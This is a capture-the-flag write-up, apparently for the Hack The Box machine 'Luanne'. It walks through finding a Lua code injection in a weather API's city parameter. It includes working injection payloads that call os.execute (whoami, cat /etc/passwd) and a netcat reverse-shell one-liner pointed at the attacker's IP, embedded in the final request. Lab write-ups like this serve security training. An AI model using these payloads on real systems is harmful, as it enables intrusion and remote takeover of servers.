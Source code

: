 Since i was not finding the exploit to RCE i tried (for the 9999999th time search for things)...
```
Search: weather.lua webapi
Result: https://gist.github.com/meskarune/5729e8d6c8428e9c70a72bed475db4e1

weather = http.request(("%sid=%s&units=%s&APPID=%s"):format(api_url, cityid, cf, apikey)) <---- thisss!!!
```

This might be the line triggering this error (not actually like this, but something similar) <br>

The line is actually just building requesting to the some web api that retrieves the data..

if it maintains this structure, it is exploitable like following
```
COMMAND: http.request(("%sid=%s&units=%s&APPID=%s"):format(api_url, cityid, cf, apikey))
--------------------------------------------------------------------------------------------
REQUEST: /weather/forecast?city='))os.execute("whoami")-- 
Code after:  http.request(("%sid='))os.execute("whoami") --
--------------------------------------------------------------------------------------------
RESPONSE: <br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```

This was assuming that it was running that format string but it can be using concatenation
```
Hypothetic command: http.request("%s" .. api_url .. "id=" .. cityid .. "&units=" .. cf .. "&APPID=" .. apikey))
--------------------------------------------------------------------------------------------
REQUEST 1: /weather/forecast?city=")os.execute("whoami")-- 
Code after 1: http.request("%s" .. api_url .. "id=" .. ")os.execute("whoami") -- 

RESPONSE: "error": "unknown city: ")os.execute("cat /etc/passwd")--"}   <---- transforming in string
--------------------------------------------------------------------------------------------
REQUEST 2: /weather/forecast?city=')os.execute("whoami")--
Code after 2: http.request("%s" .. api_url .. "id=" .. ')os.execute("whoami") -- 

RESPONSE: error": "unknown city: _httpd  <- The user... We got RCE
```

Although RCE was achieved, the command might not have double quotes but single... well we got RCE, lets continue... <br>

Tried several ways to get reverse shell, but none was workin so i tried: <b> uname -a </b>

```
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

Lets try an openBSD reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.243 1414 >/tmp/f
```

Got connection, but with error... no bash
```
Connection from 10.10.10.218:55314
sh: /bin/bash: not found


NEW PAYLOAD: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 1414 >/tmp/f
REQUEST: /weather/forecast?city=')os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 1414 >/tmp/f")--
```
